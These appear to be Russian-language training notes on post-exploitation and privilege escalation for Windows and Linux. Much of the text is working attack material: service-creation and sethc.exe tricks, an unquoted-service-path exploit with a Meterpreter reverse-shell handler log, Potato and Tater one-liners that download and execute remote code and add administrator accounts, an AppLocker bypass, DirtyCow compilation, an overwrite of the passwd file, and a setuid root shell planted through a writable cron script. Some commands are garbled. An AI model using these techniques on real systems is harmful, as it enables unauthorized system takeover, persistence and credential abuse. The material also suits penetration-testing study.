

# 2. Основы Post Exploitation

## Повышение привилегий как важный этап Post Exploitation

> **Повышение привилегий** — это эксплуатация уязвимостей в операционной системе или ПО, которая позволяет получить доступ к ресурсам от имени пользователя с максимально возможными привилегиями

Пример пользователя в windows: Administrators & NT AUTHORITY/SYSTEM

- наиболее важный этап в рамках постэксплуатации. Он дает возможность закрепления на целевой системе и развития дальнейших векторов атак.

## Бэкдор (backdoor)

> программы скрытого удаленного администрирования, которые предоставляют мошенникам возможность несанкционированно и удаленно управлять скомпрометированным компьютером.

- устанавливается на компьютер пользователя скрыто
- не выдает никаких сообщений
- может отсутствовать в списке активных приложений.

позволяет злоумышленникам
- копировать файлы с зараженного компьютера
- передавать файлы и программы на зараженный компьютер
- получать удаленный доступ к реестру
- выполнять системные операции
    - перезагружать компьютер
    - создавать новые сетевые ресурсы. 
- для получения и передачи конфиденциальных данных пользователей
- для запуска вредоносных программ
- уничтожения информации.

Основные свойства бэкдора:
- Сложно обнаружить.
- Можно использовать многократно.
- Легко отрицать: выглядит как ошибка, и в случае обнаружения разработчик может сослаться, что допустил эту ошибку случайно и злого умысла не имел.
- Эксплуатируется только при знании секрета. Воспользоваться может только тот, кто знает, как активируется бэкдор.
- Защищён от компрометации предыдущими использованиями. Даже если бэкдор был обнаружен, то невозможно установить, кем он до этого эксплуатировался, и какой информацией завладел злоумышленник.
- Сложно повторить. Даже если бэкдор был кем-то найден, то его невозможно будет использовать в другом коде или на другом устройстве.

### Аппаратные бэкдоры

могут использоваться производителями аппаратной начинки, чтобы встраивать в неё вредоносные функции на этапе производства

<ins style="color:green">преимуществ над программными</ins>
- Не могут быть обнаружены антивирусами, сканерами кода и другим защитным ПО.
- Не могут быть устранены обновлением или заменой программного обеспечения.

Принцип действия
1. Сразу после включения заражённого компьютера, ещё до загрузки операционной системы, она производит попытку установить соединение с сервером злоумышленника через интернет
1. Если попытка удалась - производится удалённая загрузка какого-нибудь буткита, который предоставляет злоумышленнику возможность производить с заражённым компьютером вредоносные действия
1. Если удалась - происходит нормальная загрузка операционной системы

сама по себе модифицированная прошивка не содержит в себе никакого вредоносного кода, а буткиты трудно обнаруживаются.

### Программные бэкдоры

- могут также попасть в систему от компании-изготовителя (программные импланты)
- установить их из прикрепленного к письму файла
- вместе с загружаемыми файлами из файлообменника
- могут быть установлены на компьютер вручную или другим вредоносным ПО
- Часть бэкдоров проникает в вычислительные машины, используя уязвимости ПО
    - подобно червям, тайно распространяются по всей системе

Угрозу маскируют под внушающие доверие названия и тексты, мотивирующие жертву открыть или запустить зараженный файл.

попав в систему, передают злоумышленнику
- желаемые данные
- возможность управлять машиной

взаимодействие может происходить тремя способами:

1. **BindShell**<br>вредонос ожидает соединение «клиент-сервер».
1. **Reverse Shell**<br>бэкдор сам соединяется с компьютером атакующего.
1. **Middle Connect**<br>зловред и устройство хакера производят обмен данными с помощью дополнительного сервера.

## Интерактивный шелл

можно использовать модуль Python для создания интерактивного шелла

1. На целевой системе:

```bash
python -c 'import pty; pty.spawn("/bin/bash")’
Ctrl-Z
```

2. На системе атакующего:

```bash
stty raw –echo
fg
```

3. На целевой системе:

```python
export TERM=xterm-256color
stty rows <num> columns <cols>
```

Подробнее можно почитать в статье [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

# 3. Способы повышения привилегий Windows

Windows и Linux несут обычное число уязвимостей

Windows-сервер
- полностью пропатченный встречается гораздо чаще
- ремя выхода патчей зачастую меньше

## Способы повышения

### Через планировщик задач

добавить задачу с помощью двух утилит:
- `at`
    - запустит задачу от имени системы
- `schtasks`
    - запустит задачу от имени пользователя, добавившего задание

запустить консоль с правами системы:

```cmd
at 13:01 /interactive cmd
```

### Через добавление сервиса

который будет запускать необходимый файл или выполнять команду

```cmd
@break off title root
Cls
echo Creating service.
sc create evil binpath= "cmd.exe /K start" type= own
type= interact > nul 2>&1
echo Starting service.
sc start evil > nul 2>&1
echo Standing by...
ping 127.0.0.1 -n 4 > nul 2>&1
echo Removing service.
echo.
sc delete evil > nul 2>&1
```

### Через подмену системной утилиты

`C:\windows\system32\sethc.exe, например`, на `cmd.exe`. Если после этого разлогиниться и нажать несколько раз клавишу Shift, то появится консоль с системными правами. Что касается автоматизированных способов, то на ум сразу же приходит Metasploit и его getsystem.

Альтернативным вариантом можно считать PsExec от Sysinternals `psexec -i -s -d cmd.exe`

### Пользовательские права

Часто повышение привилегий оказывается следствием неправильно настроенных пользовательских прав.
- когда пользователь домена является локальным администратором на хосте
- когда пользователи домена (или члены доменных групп) являются локальными администраторами на всех хостах.

### Охота за учетными данными (credentials)

Один из простых и надежных способов получить более высокий уровень доступа в системе — это завладеть паролями администраторов или пользователей с большими правами.
- На помощь приходит автоматическая установка программ
- Если нужно управлять сетью с большим количеством компьютеров, никто не будет вручную ставить программы на каждую машину — это слишком долго и неудобно
- используют *Unattended Installations*, которые создают файлы с паролями администраторов в открытом виде
- Такие файлы — настоящая находка для пентестеров и злоумышленников.

#### Unattended Installs

В случае автоматизированной установки на клиенте остается достаточно любопытный для нас файл `Unattended.xml`
- обычно находится либо в `%WINDIR%\Panther\Unattend\`, либо в `%WINDIR%\Panther\`
- может хранить пароль администратора в открытом виде
- чтобы получить этот файл с сервера, не требуется даже никакой аутентификации: надо найти лишь сервер *Windows Deployment Services*.

Для этого можно воспользоваться [скриптом из Metasploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/dcerpc/windows_deployment_services.rb):<br>`auxiliary/scanner/dcerpc/windows_deployment _services`

### GPP (Group Policy Preference)

XML-файлы настроек групповой политики безопасности (Group Policy Preference) часто содержат зашифрованные учетные данные
- можно использовать
    - для добавления новых пользователей
    - создания общих ресурсов и других задач

К счастью для исследователей (и, к сожалению, для администраторов), метод шифрования описан в документации, а ключ для расшифровки прямо указан в MSDN. Более того, команда Metasploit упростила задачу — достаточно воспользоваться [модулем](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/gpp.rb) `/post/windows/gather/credentials/gpp.rb`.

### AlwaysInstallElevated

Иногда администраторы позволяют обычным пользователям самостоятельно устанавливать программы. Обычно это делается через следующие ключи реестра:

```
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

Или:
```
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

Они указывают системе, что любой MSI-файл должен устанавливаться с повышенными привилегиями (NT AUTHORITY\SYSTEM)

В состав Metasploit входит специальный [модуль](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always_install_elevated.rb)<br>`exploit/windows/local/always_install_elevated`

Этот метод создает MSI-файл, в который встроен специальный исполняемый файл. Установщик извлекает и выполняет его с системными привилегиями. После выполнения процесс прерывается (с помощью специально созданного ошибочного VBS), чтобы не оставить следов в системе. Если запускать установку с ключом `/quiet`, ошибка вообще не будет отображаться пользователю.

### Пропавший автозапуск

Иногда система сохраняет записи о файлах, которые должны запускаться автоматически, даже если сам файл давно удален
- некорректно удаленный сервис: файла уже нет, а запись в реестре осталась
    - Система при каждой загрузке пытается запустить его, что приводит к ошибкам и заполнению журнала событий
- можно использовать для повышения привилегий

Для начала нужно найти такие «осиротевшие» записи. Например, с помощью утилиты [autorunsc из набора Sysinternals](https://learn.microsoft.com/ru-ru/sysinternals/downloads/autoruns).

```cmd
autorunsc.exe -a | findstr /n /R "File\ not\ found"
```

После этого останется только как-то подсунуть на место пропавшего файла своего кандидата.

### Неквотируемые пути служб (Unquoted Service Paths)

Кавычки могут стать не только уязвимостью в SQL-запросах, но и инструментом для повышения привилегий. Проблема известна еще со времен NT. Она возникает, если путь до исполняемого файла сервиса не заключен в кавычки, а в самом пути есть пробелы. 

Например `ImagePath=C:\Program Files\Common Files\Network Associates\McShield\McShield.exe`

- злоумышленник может создать файл с именем, например, C:\Program Files\binary.exe, который выполняет нужные ему действия
- При запуске сервиса система вместо исходного файла выполнит binary.exe, а оставшаяся часть пути будет считаться аргументами

Хотя пользователь без привилегий не сможет записать файл в Program Files, исполняемый файл сервиса может находиться в других директориях, где такая возможность есть

Чтобы воспользоваться этой техникой, сначала нужно найти уязвимый сервис, который не использует кавычки в пути к своему бинарнику. Это делается следующим образом:

```cmd
wmic service get name,displayname,pathname, startmode
|findstr /i "auto" |findstr /i /v "c: \windows\\"
|findstr /i /v """
```

Или можно получить список сервисов с помощью sc query, далее смотреть информацию по каждому сервису: 

```cmd
sc qc servicename
```

#### BeRoot

Для автоматизации этого метода можно воспользоваться утилитой [BeRoot](https://github.com/AlessandroZ/BeRoot).

Что умеет находить:
- те самые пути с пробелами, не обрамленные кавычками, например: C:\Program Files\Some Test\binary.exe
- в таком случае Windows будет пытаться найти и запустить файл в следующем порядке: 

```
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\binary.exe
```

Если binary.exe запускается с повышенными привилегиями, а у вас есть возможность создать файл C:\Program.exe, Windows вместо исходного бинарника выполнит ваш файл. Это позволит повысить привилегии в системе.

- проверяет так называемые «интересные» директории, в которые можно записать файлы
    - составляются на основе путей к исполняемым файлам сервисов, запланированных заданий, а также ключей автозагрузки (например, из HKLM)


Если посмотреть запись для этой службы в системном реестре, то можно увидеть ключ ImagePath. Его значение:<br>`C:\Program Files (x86)\Program Folder\Subfolder\Executable.exe`

Хотя должно быть:<br>`"C:\Program Files (x86)\Program Folder\Subfolder\Executable.exe"`

### Примеры

- Для проверки прав на папку можно воспользоваться встроенной утилитой `icacls`. Ниже показан результат проверки прав для `C:\Program Files (x86)\Program Folder`:

```cmd
meterpreter > shell
Process 1884 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Program Files (x86)\Program Folder>icacls
"C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files (x86)\Program Folder"
C:\Program Files (x86)\Program Folder
Everyone:(OI)(CI)(F)
NT SERVICE\TrustedInstaller:(I)(F)
NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
NT AUTHORITY\SYSTEM:(I)(F)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
BUILTIN\Users:(I)(RX)
BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION
PACKAGES:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION
PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
Successfully processed 1 files; Failed processing 0
files
C:\Program Files (x86)\Program Folder>
```

Как видим, группа “Everyone” имеет полный доступ к этой папке. Значит, мы можем записать любой файл в эту папку.

Описание некоторых флагов в выводе команды icacls:
- `F` - Full Control (полный доступ)
- `CI` - Container Inherit (наследование контейнерами)
- `OI` - Object Inherit (только наследование)

Теперь создадим reverse shell payload, который запускается с правами SYSTEM. Для этого можем воспользоваться MSFvenom:


Скопируем наш payload в `C:\Program Files (x86)\Program Folder`:

```cmd
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > cd "../../../Program Files (x86)/Program
Folder"
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
==============================================
Mode Size Type Last modified ---- ---- Name ---- -----------------
40777/rwxrwxrwx 21:43:28 -0500 0 dir A Subfolder
meterpreter > upload -f A.exe
uploading : A.exe -> A.exe[/li]
uploaded : A.exe -> A.exe[/li][/list]
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
2017-01
04==============================================
Mode Size Type Last modified Name -----------------------------
40777/rwxrwxrwx 21:43:28 -0500 0 2017-01-04 A Subfolder
100777/rwxrwxrwx 22:01:32 -0500 dir 73802 fil 2017-01
04
A.exe
meterpreter >
```

При следующем старте службы A.exe должен запуститься с правами SYSTEM. Давайте проверим — рестартанем уязвимую службу:

```cmd
meterpreter > shell
Process 1608 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>sc stop "Vulnerable Service"
sc stop "Vulnerable Service"
[SC] OpenService FAILED 5:
Access is denied.
C:\Users\testuser\Desktop>
```

«Доступ запрещен». Ничего страшного, у нас просто нет прав на остановку и запуск службы. Однако мы можем рестартануть целевую машину, выполнив команду shutdown:

```cmd
C:\Users\testuser\Desktop>shutdown /r /t 0
shutdown /r /t 0
C:\Users\testuser\Desktop>
192.168.2.40 - Meterpreter session 8 closed. Reason:
Died[/li]
```

Как видим, наша сессия оборвалась. После перезагрузки целевой машины наш payload должен запуститься с правами SYSTEM. Чтобы увидеть результат, нам необходимо запустить хэндлер:

```cmd
msf > use exploit/multi/handler
msf exploit(handler) > set payload
windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.60
lhost => 192.168.2.60
msf exploit(handler) > set lport 8989
lport => 8989
msf exploit(handler) > run
Started reverse TCP handler on 192.168.2.60:8989 [/li]
Starting the payload handler...[/li]
Sending stage (957999 bytes) to 192.168.2.40[/li]
Meterpreter session 1 opened (192.168.2.60:8989 ->
192.168.2.40:49156) at 2017-01-04 22:37:17
0500[/li][/list]
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
192.168.2.40 - Meterpreter session 1 closed. Reason:
Died[/li]
```

Как видим, мы получили сессию Meterpreter с правами SYSTEM. Однако сессия прервалась почти сразу. Это происходит из-за особенностей Windows: при запуске службы она должна установить соединение с Менеджером Служб (Service Control Manager, SCM). Если соединение не будет установлено, SCM завершит процесс.
- Чтобы избежать этого, нужно мигрировать в другой процесс до того, как Менеджер Служб завершит работу нашего payload.
- Также можно использовать автоматическое мигрирование.
- в Metasploit уже есть готовый модуль для проверки и эксплуатации этой уязвимости на целевой машине:<br>`exploit/windows/local/trusted_service_path`

Если вы хотите использовать данный модуль, то его необходимо прилинковать к существующей сессии Meterpreter перед запуском:

```cmd
msf > use exploit/windows/local/trusted_service_path
msf exploit(trusted_service_path) > show options
Module options
(exploit/windows/local/trusted_service_path):
Name
Current Setting Required Description --------------------------------------
SESSION yes
The session to run this module on.
Exploit target:
Id Name -- ----
0 Windows
```

Чтобы воспроизвести эксплуатацию описанной уязвимости, вам необходимо добавить уязвимую службу в вашей тестовой среде: 

```cmd
C:\Windows\System32>sc create "Vulnerable Service"
binPath= "C:\Program
Files (x86)\Program Folder\A Subfolder\Executable.exe"
start=auto
C:\Windows\System32>cd C:\Program Files (x86)
C:\Program Files (x86)>mkdir "Program Folder\A
Subfolder"
C:\Program Files (x86)>icacls "C:\Program Files
(x86)\Program Folder" /grant
Everyone:(OI)(CI)F /T
```

Помимо поиска уязвимых мест, BeRoot позволяет эксплуатировать некоторые уязвимости, например, MS16-075 (если она присутствует в системе).

Стандартный трюк с добавлением своего пользователя-администратора будет выглядеть следующим образом:

```cmd
beRoot.exe -c "net user hacker Megapasswd /add"
beRoot.exe -c "net localgroup Administrators hacker /add"
```

Также проверяются файлы от Unattended Install, которые могут содержать данные учетной записи администратора. Дополнительно проверяется доступность сервиса для изменений, создание нового сервиса, создание ключа автозагрузки в HKLM, запись в директорию запланированных заданий и варианты DLL hijacking.

### DLL hijacking

> атака, основанная на уязвимости в порядке загрузки динамических библиотек (DLL) в Windows. Если приложение подгружает DLL без указания полного пути, система ищет её в определённом порядке по списку директорий (описано в [Dynamic-Link Library Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)).

Если атакующий получает доступ к одной из директорий из списка, он может подменить библиотеку на вредоносную версию. Этот метод также называют <ins>preloading attack</ins> или <ins>binary planting attack</ins>.

Если система не найдёт оригинальную DLL до проверки скомпрометированной директории, будет загружена вредоносная библиотека. Если приложение работает с правами администратора, атакующий сможет повысить свои привилегии (local privilege escalation).

Порядок поиска DLL:
1. Директория, из которой запущено приложение.
1. Системные директории.
1. Системные директории для 16-битных приложений.
1. Директория Windows.
1. Текущая директория.
1. Директории, указанные в переменной окружения %PATH%.

Для эксплуатации уязвимости DLL hijacking требуется выполнить следующие шаги:
- **Проверить наличие DLL на диске**<br>Убедитесь, что процесс подгружает DLL, и выясните, находится ли она в одной из директорий, перечисленных в порядке поиска.
- **Добавить вредоносную DLL**<br>Если оригинальная DLL отсутствует, создайте её вредоносную копию и поместите в одну из директорий с подходящим приоритетом поиска. При запуске процесса система найдёт и подгрузит вашу DLL.
- **Замена приоритетной директории**<br>Если оригинальная DLL существует в одной из директорий, попробуйте разместить вашу вредоносную DLL в директории с более высоким приоритетом в порядке поиска, чтобы она была загружена вместо оригинальной.

## Инструменты автоматизации

### Повышение привилегий с Sherlock

есть ли в системе уязвимости, для которых доступны публичные эксплойты: [PowerShell-скрипт](https://github.com/rasta-mouse/Sherlock)

для проверки в самой Windows достаточно открыть PowerShell и выполнить:

```powershell
import-module .\Sherlock.ps1
```

Если у вас meterpreter-сессия до Win-машины, то подгружаем PowerShell-расширение, импортируем «Шерлока» и вызываем процедуру проверки: 

```cmd
meterpreter > load powershell
meterpreter > powershell_import Sherlock.ps1
meterpreter > powershell_execute "find-allvulns"
```

### Повышение привилегий с Hot Potato

[Hot Potato](http://github.com/foxglovesec/Potato)

использует связку из трех атак:<br>`NBNS-спуфинг → WPAD-прокси → HTTP2SMB-релeй`

**Спуфинг** используется, чтобы перенаправить жертву (локальный компьютер) на WPAD-прокси-сервер, подконтрольный атакующему. В нашем случае он будет работать на локальной машине по адресу 127.0.0.1:80.

Особенность в том, что Internet Explorer по умолчанию пытается автоматически определить сетевые настройки, обращаясь к адресу http://wpad/wpad.dat. Это же делают и некоторые службы Windows, например, Windows Update. Дальше подключается HTTP2SMB-релей.

**Прокси** перенаправляет запросы на уникальный URL, запрашивая NTLM-аутентификацию. Учетные данные передаются локальному SMB-листенеру, который создает новый системный сервис для выполнения команд. Если запрос поступает от привилегированной службы (например, Windows Update), команды выполняются с правами NT AUTHORITY\SYSTEM.

На Windows 7 это можно сделать, запустив следующую команду от имени обычного пользователя:

```cmd
Potato.exe -ip -cmd [command] -disable_exhaust true
```

В качестве значения параметра cmd может быть все, что угодно, например, команда вида:<br>`C:\\Windows\\System32\\cmd.exe /K net localgroup administrators USERNAME /add`

- если в сети есть реальная DNS-запись для WPAD, то надо будет указать опцию `disable_exhaust false`.

В более новых версиях Windows ситуация становится сложнее — ни Defender, ни службы обновлений больше не обращаются к WPAD-серверу.

Однако остается функция автоматического обновления отозванных сертификатов: 
- современные версии Windows по умолчанию раз в день загружают списки доверенных сертификатов
- использует WPAD
- Команда для её использования будет следующей:

```cmd
Potato.exe -ip -cmd [command] -disable_exhaust true disable_defender true
```

Так как скачивание происходит раз в день, то, возможно, придется подождать какое-то время (максимум 24 часа). Поэтому способ скорее для тех, кто не торопится.

### Повышение привилегий с Smashed Potato

[Smashed Potato](http://github.com/Cn33liz/SmashedPotato) - модифицированная версия Hot Potato, о которой говорилось ранее.

Основные изменения включают:
- Все .NET-сборки объединены в одну, преобразованную в массив байтов (Byte[]).
- Сборка Potato запускается непосредственно из памяти.
- Реализован обход AppLocker с использованием InstallUtil.
- Добавлена автоматизация для упрощения работы.
- Инструмент имеет открытый исходный код, поэтому для его сборки нужно выполнить следующее.

Для 32-разрядных систем:

```cmd
cd \Windows\Microsoft.NET\Framework\v4.0.30319
csc.exe /out:"C:\Utils\SmashedPotatoX86.exe" /platform:x86 "C:\Utils\SmashedPotato.cs"
```

Для 64-разpядных: 

```cmd
cd \Windows\Microsoft.NET\Framework64\v4.0.30319
csc.exe /out:"C:\Utils\SmashedPotatoX64.exe" /platform:x64 "C:\Utils\SmashedPotato.cs"
```

Чтобы запустить инструмент с обходом AppLoсker, нужно выполнить следующее:

```cmd
cd \Windows\Microsoft.NET\Framework\v4.0.30319
InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SmashedPotatoX86.exe
```

Вот однострочный PowerShell-скрипт, который выполнит все перечисленные действия для x64-машины:

```powershell
powershell -ExecutionPolicy Bypass -noLogo -Command
(new-object System.Net.WebClient).DownloadFile('http:https:/github.com/Cn33liz/SmashedPotato/SmashedPotato.cs'
 ','%temp%\SmashedPotato.cs'); && cd
c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe
/out:"%temp%\SmashedPotatoX64.exe" /platform:x64
"%temp%\SmashedPotato.cs" && InstallUtil.exe /logfile=
/LogToConsole=false /U %temp%\SmashedPotatoX64.exe
```

### Повышение привилегий с Tater

Если на машине отсутствует .NET Framework, можно использовать PowerShell-версию Hot Potato — [Tater](https://github.com/Kevin-Robertson/Tater)

Эта утилита загружается в память и не оставляет следов на диске.

Для её запуска достаточно одной строки:

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://github.com/Kevin-Robertson/Tater/blob/master/Tater.ps1');
Invoke-Tater -Trigger 1 -Command ""net user User1
Password1 /add && net localgroup administrators User1 /add"""
```

После выполнения команды в системе создается пользователь User1 с паролем Password1, который добавляется в группу администраторов. Однако для Windows 10 нужно использовать ключ Trigger 2.

Чтобы скомпилировать эксплойт для Windows (например, для повышения привилегий) из-под linux:

```bash
apt update
apt install mingw-w64
```

Дальше все просто. Качаем exploit и компилируем: 

```bash
wget ‐‐output-document= 40564.c https://www.exploitdb.com/download/40564 i686-w64-mingw32-gcc 40564.c –o exploit.exe –lws2_32
```

### EasySystem

Если у вас уже есть локальный администратор, и задача сводится к получению системных привилегий - [EasySystem](https://github.com/Cn33liz/EasySystem)

Как отмечает сам автор, это не эксплойт, а «старый и грязный» трюк с использованием имперсонации именованных каналов.

Утилита позволяет получить права NT AUTHORITY\SYSTEM, что может быть полезно в некоторых ситуациях.

### Secondary Logon Handle

Еще один интересный трюк связан с использованием службы «Вторичный вход в систему»
- позволяет запускать программы, консоли Microsoft Management и элементы панели управления от имени администратора
- даже если текущий пользователь принадлежит к группе Users или Power Users.

Суть в том, что данный сервис не очищает хендлы при создании новых процессов.

В Metasploit Framework есть специальный [модуль](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_032_secondary_logon_handle_privesc.rb):<br>`exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

Для использования модуля требуется активная meterpreter-сессия. Ее нужно указать в параметрах команды: `set SESSION 1`.

Если эксплуатация пройдет успешно, появится новая сессия с повышенными привилегиями.

### Разрешения на доступ к файлам

Обнаружение директории с некорректными разрешениями — это уже половина успеха. Однако ее нужно сначала найти. Для этого можно воспользоваться следующими двумя инструментами: [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) и [Cacls/ICacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).

Чтобы найти при помощи AccessChk «слабые» директории, понадобятся данные команды:

```cmd
accesschk.exe -uwdqs users c:\
accesschk.exe -uwdqs “Authenticated Users” c:\
```

Для поиска файлов со «слабыми» разрешениями служат следующие:

```cmd
accesschk.exe -uwqs users c:\*.*
accesschk.exe -uwqs “Authenticated Users” c:\*.*
```

То же самое можно выполнить и при помощи Cacls/ICacls: 

```cmd
cacls "c:\Program Files" /T | findstr Users
```

### Schtasks

Еще один способ повышения привилегий, о котором часто забывают, — использование планировщика задач.

С помощью утилиты schtasks можно назначать задачи, которые будут выполняться при определенных событиях. Наиболее интересные для нас события:
- ONIDLE — выполняется каждый раз, когда компьютер находится в состоянии простоя.
- ONLOGON — выполняется при входе пользователя в систему.
- ONSTART — выполняется при запуске системы.

Эти события позволяют настроить выполнение отдельных задач. Например, можно привязать выполнение вредоносного скрипта или программы, чтобы они запускались автоматически при указанных событиях.

### Services

Еще один способ подняться в системе — воспользоваться ошибками и мисконфигурациями сервисов. На практике некорректные разрешения бывают не только у файлов и папок, но и у работающих в системе сервисов. Обнаружить их поможет утилита [AccessChk](https://learn.microsoft.com/ru-ru/sysinternals/downloads/accesschk).

```cmd
accesschk.exe –uwcqv *
```

Самым радостным открытием будет обнаружить разрешение SERVICE_ALL_ACCESS для аутентифицированных пользователей или power-юзеров.

Однако успехом также можно считать следующие разрешения:
- **SERVICE_CHANGE_CONFIG** - позволяет изменять исполняемый файл службы.
- **WRITE_DAC** - дает возможность менять разрешения, что ведет к получению SERVICE_CHANGE_CONFIG.
- **WRITE_OWNER** - позволяет стать владельцем и изменять разрешения.
- **GENERIC_WRITE** - включает в себя SERVICE_CHANGE_CONFIG.
- **GENERIC_ALL** - включает в себя SERVICE_CHANGE_CONFIG.

Если одно или несколько из этих разрешений установлены для непривилегированных пользователей, вероятность повышения привилегий значительно возрастает.

Когда подходящий сервис найден, можно начинать работу с ним. Для этого пригодится консольная утилита `sc`. Для начала нужно получить полную информацию о сервисе, например, upnphost:

```cmd
sc qc upnphos
```

Далее изменим конфигурацию:

```cmd
sc config vulnsrv binpath= "net user hacker 1337 /add &&
net localgroup Administrators john /add" type= interact
sc config upnphost obj= ".\LocalSystem" password=""
```

При следующем старте службы вместо ее исполняемого файла выполнится команда:

```cmd
net user john hello /add
net localgroup Administrators john /add
```

Команда добавит в систему нового пользователя hacker с паролем 1337. Остается только вручную перезапустить сервис:

```cmd
net stop upnphost && net start upnphost
```

# 4. Способы повышения привилегий в Linux

## Эксплойты ядра

Для перечисления (enumeration) возможных эксплойтов отлично подходит скрипт LinEnum.sh. Исходный код доступен на [GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

Скрипт определяет версию операционной системы и ядра, а также подбирает соответствующие уязвимости с exploit-db.com.

Для нашего случая подходит эксплойт CVE-2016-5195 (DirtyCow). Исходный код доступен на [GitHub](https://github.com/dirtycow/dirtycow.github.io).

Процесс компиляции эксплойта можно выполнять с разными параметрами. Если в комментариях к эксплойту не указаны иные рекомендации, используйте следующий способ по умолчанию:

```bash
gcc dirtycow.c –o dirtycow
```

Если все прошло успешно, то при вводе команды id вы должны увидеть что-то вроде этого:

```bash
id
uid=0(root) gid=0(root) группы=0(root)
```

Если эксплойт не сработал — не расстраивайтесь, а смело переходите к другому, пока не исчерпаете все возможные варианты.

### Некоторые инструменты автоматизации:

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
- [kernel-exploits](https://github.com/lucyoa/kernel-exploits)

## Сервисы, запущенные с правами root

В процессе администрирования нередко на этапе тестирования приложения запускаются от имени root, а потом про это забывают. В результате приложение остается с привилегиями root, что может быть использовано злоумышленниками. Эксплуатация таких приложений предоставляет доступ к системе с правами root.

Чтобы выяснить, какие приложения работают с привилегиями root, можно воспользоваться скриптом LinEnum.sh или применить команды bash.

```bash
ps -aux | grep root
```

## Разрешения обычным пользователям запускать приложения как root (SUID)

Биты Set User Identifier (SUID) и Set Group Identifier (SGID) предоставляют файлам и каталогам особые права доступа, дополняя стандартные права `rwx`.

SUID позволяет непривилегированному пользователю временно получить права владельца файла при выполнении файла (запущенного процесса).

Найти такие файлы можно с помощью команды:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

Если есть доступ к root у python:


Утилита cp:

В таком случае стоит попробовать изменить файл passwd и добавить нового пользователя. Для этого копируем в tmp текущий файл passwd<br>

С помощью `openssl` создаем нового пользователя у себя на машине:

```bash
openssl passwd -1 -salt hacker password 
$1$xxxxxxxx$UYCIxa628.9qXjpQCjM4a
```

Здесь hacker — это пользователь, а password — пароль. Полученные данные добавляем в новый (созданный самим собой) passwd

Копируем каким-нибудь образом такой файл на атакуемый хост и с помощью cp заменяем исходный файл.

Аналогично со случаем, когда правами root обладает какой-нибудь редактор: vi, vim, nano, etc… Таким образом можно редактировать любой файл в системе или добавить нового пользователя в passwd-файл.

## Разрешения обычным пользователям запускать приложения через SUDO

Часто администратор позволяет некоторым пользователям группы SUDO запускать приложения без запроса пароля.

Чтобы проверить, какие именно приложения можно запускать без запроса пароля, воспользуемся командой:

```bash
sudo -l
```

Обратите внимание на запись — `NOPASSWORD`. Она говорит о том, что следующие приложения можно запускать без пароля.

Например, если find доступен без пароля:

```console
Pasya@e71b8159c6a8:-$ sudo find /home exec shi \;
# whoami
root
# ls -alF /root
# python -c 'import pty:pty.spawn("/bin/bash")
root@e71b8159c6a8:/home/vasya# cd /root
root@e71b8159c6a8:-# pwd
root
root@e71b8159c6a8:-#
```

## Планировщик cron

Автоматизация может вызвать проблемы в системе. Часто администраторы используют планировщики, такие как cron, и свои скрипты. Проблемы начинаются, если файл скрипта, задействованный в планировщике, доступен для записи обычным пользователям.

Рассмотрим пример. Сначала проверим файлы планировщика на наличие администраторских скриптов.


Нашли скрипт под именем `cronForRoot.sh`, который запускается каждые 2 минуты.

Следующей задачей является поиск этого файла. Возможно, текущий пользователь имеет права на запись.

<br>

Как видим, в файл можно писать всем. Теперь надо проэксплуатировать данную уязвимость. Используем этот payload:

```c
int main(void)
{
setgid(0);
setuid(0);
execl("/bin/sh", "sh", 0);
}
```


Получили файл с названием root. Теперь надо сделать так, чтобы он запускался от имени root. Например, выставить идентификатор (suid), как в третьем пункте текущего урока. В этом поможет тот самый скрипт, запускаемый каждые 2 минуты от имени root пользователя. Изменим его содержимое следующим образом:

```bash
echo "chown root:root /tmp/root; chmod u+s /tmp/root;" > /usr/local/sbin/cronForRoot.sh
```

